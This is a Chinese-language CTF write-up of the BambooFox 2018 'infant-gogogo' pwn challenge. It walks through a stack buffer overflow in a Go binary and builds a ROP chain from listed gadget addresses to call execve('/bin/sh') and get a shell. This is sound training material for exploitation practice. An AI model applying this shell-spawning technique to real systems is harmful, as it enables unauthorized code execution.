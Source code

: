 # infant-gotoheaven

> Challenge Link: [infant-gogogo](http://ctf.bamboofox.cs.nctu.edu.tw/challenges#infant-gogogo)
>
> Category: pwn

Give me your magic text ~~~

`nc bamboofox.cs.nctu.edu.tw 58795`

[infant-gogogo.zip](http://ctf.bamboofox.cs.nctu.edu.tw/files/1f36921a750a6904cf3b6133cecf1554/infant-gogogo.zip)

## 觀察

這支程式可以讓使用者輸入一串字串，看起來跟前一題的 [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 很像

```
% ./infant-gotoheaven                     
Give me your text : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

### Buffer overflow

先試一下是否也有 Buffer overflow

```
% ./infant-gogogo              
Give me your text : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
unexpected fault address 0x0
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x80 addr=0x0 pc=0x489834]

goroutine 1 [running]:
runtime.throw(0x4b9168, 0x5)
        /usr/local/go/src/runtime/panic.go:605 +0x95 fp=0xc420043f28 sp=0xc420043f08 pc=0x427345
runtime.sigpanic()
        /usr/local/go/src/runtime/signal_unix.go:374 +0x227 fp=0xc420043f78 sp=0xc420043f28 pc=0x43a307
main.main()
        /home/frozenkp/Downloads/gobin/infant-gogogo.go:20 +0x1b4 fp=0xc420043f80 sp=0xc420043f78 pc=0x489834
```

最後一行有寫到死在`infant-gogogo.go:20`

用`objdump`看一下發現是死在`ret`，所以應該跟上題一樣，也是可以**蓋到 return address**

![](https://i.imgur.com/J0SdY2P.png)

## 解法

這題跟  [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 的主要差別在於 [infant-gotoheaven](https://github.com/frozenkp/CTF/tree/master/BambooFox_CTF_2018/infant-gotoheaven) 有提供可以直接拿到 shell 的 `system call` ，這題則要自己建 ROP chain

### payload

先隨便輸入來造成 segmenataion fault，確定程式會產生 buffer overflow，且是死在 return addresss 錯誤

![img](https://i.imgur.com/3w10UGw.png)

計算一下 payload 是 **256**

### ROP chain

因為 Go 的 binanry 檔是 static link 的，基本上可以從裡面拿到各式各樣的 gadget

```
% file infant-gogogo 
infant-gogogo: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
```

#### execve

根據 [這篇](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) 整理的表格，要執行 `execve("/bin/sh")` 的條件是

| rax  | System call | rdi                  | rsi                      | rdx                      |
| ---- | ----------- | -------------------- | ------------------------ | ------------------------ |
| 59   | sys_execve  | const char *filename | const char *const argv[] | const char *const envp[] |

執行 `/bin/sh` 的話，只需要把 `rdi` 指向寫有 `/bin/sh` 的**位址**，`rsi` 及 `rdx`  則設成 0 (NULL) 即可

#### ROP gadget

基本上在設值的時候，如果可以拿到 `pop {resister}; ret` 形式的 gadget 最好，因為可以直接把要丟入的值寫在 gadget 的下一位，例如：

```
ropchain = pop_rax, p64(59)
```

這樣在執行 `pop rax` 時，會將 stack 上的第一位 pop 到 rax 上，而此時的第一位就會是 `p64(59)`

除此之外，也要注意**最後面必須是 ret** ，否則沒辦法繼續執行後段的 ROP chain

尋找 ROP gadget 可以使用指令 `ROPgadget` 搭配 `grep`，例如說要找 `pop rax` 時：

```
% ROPgadget --binary infant-gogogo | grep 'pop rax.*ret'
0x000000000044dd12 : add eax, ebp ; pop rax ; ret
0x000000000044dd10 : and al, 0x10 ; add eax, ebp ; pop rax ; ret
0x0000000000466d3e : je 0x466d67 ; pop rax ; ret
0x000000000044dd0d : or dh, al ; and al, 0x10 ; add eax, ebp ; pop rax ; ret
0x0000000000402563 : pop rax ; add rsp, 0x60 ; ret
0x000000000040e31b : pop rax ; and byte ptr [rax - 1], cl ; ret
0x0000000000448b11 : pop rax ; mov qword ptr [rsp + 0x10], rax ; ret
0x000000000043cfb3 : pop rax ; or byte ptr [rax - 0x7d], cl ; ret
0x000000000040985c : pop rax ; or dh, dh ; ret
0x0000000000404656 : pop rax ; ret
0x0000000000414f4a : pop rax ; ret 0xff2
0x000000000040e318 : sbb byte ptr [rax - 0x75], cl ; pop rax ; and byte ptr [rax - 1], cl ; ret
```

其中可以看到 `0x0000000000404656 : pop rax ; ret` 是最符合的 gadget

#### /bin/sh

前面有說到，`rdi`是寫有 `/bin/sh` 的**位址**，所以需要找一塊空間來寫 `/bin/sh`

在 gdb 中使用 `vmmap` 來尋找可用空間

```
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x0048a000         r-xp      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0048a000         0x0051c000         r--p      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0051c000         0x0052f000         rw-p      /home/frozenkp/Documents/CTF/BambooFox_CTF_2018/infant-gogogo/infant-gogogo
0x0052f000         0x00550000         rw-p      [heap]
0x000000c000000000 0x000000c000001000 rw-p      mapped
0x000000c41fff8000 0x000000c420100000 rw-p      mapped
0x00007ffff7f5b000 0x00007ffff7ffb000 rw-p      mapped
0x00007ffff7ffb000 0x00007ffff7ffd000 r--p      [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 r-xp      [vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
```

其中有段 `0x0051c000         0x0052f000         rw-p` 是可寫的，我選擇 `0x523000` 來寫，盡量不要選擇太前面或太後面的位置，怕跟其他東西衝到

可以寫入到 `rdi` 的有以下兩句

```
0x0000000000485abd : pop rdi ; cmp dword ptr [rcx], eax ; add byte ptr [rax + 0x39], cl ; ret
0x00000000004518ff : mov qword ptr [rdi], rax ; ret
```

其中，`pop rdi` 的 gadget 後面還有 `add byte ptr [rax + 0x39]`，所以必須確保 `rax+0x39 `是一段可以寫的位址，否則會死掉

因此我先將 `rax` 設成 data 的位址，設完 `rdi` 後，再將 `rax` 設成 `/bin/sh` ，最後填入 `ptr [rdi]` 中即可



所有得條件都設定完成後，執行即可拿到 shell 囉 OwO

